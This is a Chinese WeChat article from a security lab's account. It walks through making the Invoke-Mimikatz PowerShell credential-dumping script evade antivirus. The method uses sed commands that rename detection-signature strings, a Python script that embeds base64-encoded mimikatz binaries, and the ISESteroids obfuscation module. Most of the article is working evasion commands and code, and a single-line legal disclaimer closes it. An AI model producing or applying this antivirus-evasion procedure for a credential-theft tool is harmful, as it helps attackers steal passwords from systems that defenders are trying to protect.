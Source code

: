 ##  再探mimikatz免杀

原创 鸿鹄实验室a [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    前几天看了tubai师傅的免杀抓密码，这里我也来分享一下mimiktaz的powershell脚本的免杀方法。  

  

测试使用的mimikatz文件地址如下：  

  

https://github.com/BC-
SECURITY/Empire/blob/master/empire/server/data/module_source/credentials/Invoke-
Mimikatz.ps1

  

   首先，关于powershell脚本来说有很多现成的混淆工具(主流免杀方式就是混淆)，比如chameleon、Invoke-
Stealth、Chimera等等，但此类工具在混淆mimikatz时，或多或少会出现部分问题。于是我们这里手工对其进行免杀操作。

  

   先对mimikatz的ps脚本执行基础的字符混淆  

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1  
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1  
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1  
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091251.png)

  

弄完后一些基础的东西就算是混淆完成了，如果你想更新mimikatz，可以使用下面的py脚本进行更新

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import fileinputimport base64  
      
      
    with open("./mimikatz_trunk/Win32/mimikatz.exe", "rb") as f:    win32 = base64.b64encode(f.read()).decode()  
    with open("./mimikatz_trunk/x64/mimikatz.exe", "rb") as f:    x64 = base64.b64encode(f.read()).decode()  
      
    for line in fileinput.FileInput("./Invoke-Mimikatz.ps1", inplace=1):  
      line = line.rstrip('\r\n')  if "$PEBytes64 = " in line:    print("$PEBytes64 = '" + x64 + "'")  elif "$PEBytes32 = " in line:    print("$PEBytes32 = '" + win32 + "'")  else:    print(line)

  

此时我们的mimikatz并不能绕过杀软，我们需要利用powershell ise自带的功能来进行后续操作  

  

先来安装该模块，命令如下：  

  

  * 

    
    
    Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery -Force

  

安装好以后在ise输入  

  

  * 

    
    
     Start-Steroids

  

开启该模块

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091253.png)

  

然后在工具中选择混淆代码  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091254.png)

  

混淆即可，此时所有操作已经完成。  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091255.png)

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805091256.png)

  

  

![]()

鸿鹄实验室a

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

再探mimikatz免杀

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

